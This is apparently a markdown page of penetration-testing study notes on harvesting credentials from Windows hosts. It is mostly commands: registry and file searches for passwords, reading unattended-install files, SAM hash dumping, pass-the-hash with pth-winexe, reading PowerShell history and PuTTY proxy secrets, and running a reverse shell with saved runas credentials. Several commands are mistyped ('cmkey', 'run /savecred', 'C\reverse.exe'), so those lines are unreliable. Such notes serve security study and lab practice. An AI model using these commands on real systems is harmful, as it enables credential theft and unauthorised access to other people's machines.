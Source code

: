### Registry
Can can contain password for insecure services.
[reg](../Commands/reg.md)
```powershell
# search for password in either keyname or keyvalue recursively
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

### Saved Creds
- Windows can allow user to save their password with runas.exe command.
- Can be queried with:
```powershell
# list already saved key
cmkey /list

# use the cred to run reverse shell as that user.
run /savecred /user:<username> C\reverse.exe

```

### Unattended Windows Installation
When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. These kinds of installations are referred to as unattended installations as they don't require user interaction. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:

```
C:\Unattend.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\system32\sysprep.inf
C:\Windows\system32\sysprep\sysprep.xml
```
```xml
<Credentials>
    <Username>Administrator</Username>
    <Domain>thm.local</Domain>
    <Password>MyPassword123</Password>
</Credentials>
```
As part of these files, you might encounter credentials:
```powershell
dir /s *pass* == *.config
```
- Searching for files that contains the word `password` and also ends in either `.xml` `.ini` or `.txt`
```powershell
findstr /si password *.xml *.ini *.txt
```

### SAM
- Security Accounts Manager
- Used for storing password hashes
- Encrypted using key found inside the file `SYSTEM`
- If SAM and SYSTEM is readable, it is possible to read hashes
- Located at `C:\Windows\System32\config` directory
- Locked while windows is running.
- Backup can be found at 
```powershell
C:\Windows\Repair
C:\windows\System32\config\RegBack
```
- Creddump7 can be used to fetch hashes from both the field.
> Hash that start with `31d6` means that either the account has no password or the account is deactivated.
- If hashes are not crackable, path-the-hash method can be used to login to the system.
- pth-winexe version of the winexe can be used to perform pass-the-hash attacks
```powershell
# hash should be both NL and LM hash
# add --system to get a SYSTEM level shell 
.\pth-winexe -U 'admin%<hash>' //<ip> cmd.exe
```

### Powershell History
Can be found in the below location: 
cmd:
```cmd
%userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```
powershell:
```powershell
$Env:userprofile\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### IIS Configuration Files
- Default web server in on windows installation.
- Configuration is stored in `web.config`, preferebly in the variable `connectionstring`
- `web.config` is stored in:
```powershell
C:\inetpub\wwwroot\web.config
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config
```

### PuTTY
- Putty can store proxy configuration in registry keys that includes cleartext authentication details.
- They are stored in :
```powershell
reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s
```
